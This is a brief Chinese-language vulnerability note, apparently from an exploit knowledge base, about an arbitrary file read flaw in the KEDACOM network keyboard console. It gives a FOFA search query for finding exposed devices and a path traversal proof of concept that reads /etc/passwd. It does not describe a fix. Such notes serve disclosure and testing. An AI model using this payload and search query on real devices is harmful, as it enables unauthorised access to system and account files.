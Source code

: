 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>KEDACOM 网络键盘控制台</a-checkbox></br>

## FOFA

<a-checkbox checked>"网络键盘控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629778495373-5538cf42-58cb-4c98-94f4-3283820a9257.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791-20220313112704543.png)